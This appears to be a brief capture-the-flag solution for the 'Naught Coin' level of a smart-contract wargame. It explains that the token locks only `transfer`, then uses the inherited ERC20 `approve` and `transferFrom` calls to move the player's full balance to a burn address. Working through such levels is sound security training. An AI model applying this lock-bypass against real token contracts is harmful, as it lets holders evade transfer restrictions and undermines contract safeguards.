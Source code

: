 # Naught Coin

the Naught Coin inherited from Openzeppelin's ERC20

```solidity
import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';
```

but only implements `transfer`

get balance

```solidity
const balance = await contract.balanceOf(player)
```

approve player to transfer the coin

```solidity
await contract.approve(player, await contract.balanceOf(player));
```

transfer to burn address

```solidity
await contract.transferFrom(player, '0x000000000000000000000000000000000000dEaD', balance);
```

check the balance

```solidity
(await contract.balanceOf(player)).toString();
```
